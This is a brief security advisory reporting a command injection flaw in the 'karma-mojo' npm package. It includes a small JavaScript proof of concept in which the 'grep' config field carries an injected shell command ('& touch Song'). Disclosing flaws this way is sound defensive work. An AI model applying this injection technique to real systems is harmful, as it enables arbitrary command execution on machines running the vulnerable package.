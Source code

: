# Overview
`karma-mojo` is a plugin for Karma that provides a binary for running only a select subset of tests at a time instead of running the whole test suite.

This package are vulnerable to Command Injection, the argument config can be controlled by users without any sanitization.

# Proof of Concept
```
var root = require("karma-mojo");
var config = {
   runnerPath: './karma.log',
  grep: "\"& touch Song\"",
  grepDir:"",
  length: 1
}
root['reporter:mojo'][1]('',config, '', {'create': function(){}});
```